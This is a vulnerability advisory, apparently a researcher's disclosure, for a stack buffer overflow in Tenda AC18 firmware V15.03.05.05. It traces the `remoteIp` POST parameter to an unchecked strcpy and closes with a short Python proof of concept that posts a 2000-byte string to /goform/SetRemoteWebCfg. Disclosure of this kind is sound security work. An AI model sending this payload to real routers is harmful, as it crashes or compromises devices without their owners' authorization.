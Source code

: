 ## Overview

- The device's official website: https://www.tenda.com.cn/product/overview/AC18.html

- Firmware download website: https://www.tenda.com.cn/download/detail-2610.html

## Affected version

V15.03.05.05

## Vulnerability details

The Tenda AC18 V15.03.05.05 firmware has a stack overflow vulnerability in the `formSetSafeWanWebMan` function. The `v7` variable receives the `remoteIp` parameter from a POST request and is later passed to the `sub_B677C` function. 

![image-20240425210658819](images/image-20240425210658819.png)

In `sub_B677C` function, the variable `a1` is passed to function `sub_B44F0`. 

![image-20240425210817918](images/image-20240425210817918.png)

In function `sub_B44F0`, the variable `a1` is directly assigned to `(char *)&a4[38 * a3 + 2] + 2` by `strcpy` However, since the Since user can control the input of  `remoteIp`, the statemeant `strcpy((char *)&a4[38 * a3 + 2] + 2, a1);` can cause a buffer overflow. The user-provided  `remoteIp` can exceed the capacity of the `(char *)&a4[38 * a3 + 2] + 2` array, triggering this security vulnerability.

![image-20240425211447623](images/image-20240425211447623.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.102"
url = "http://" + ip + "/goform/SetRemoteWebCfg"
payload = b"a"*2000

data = {"remoteIp": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240425210633040](images/image-20240425210633040.png)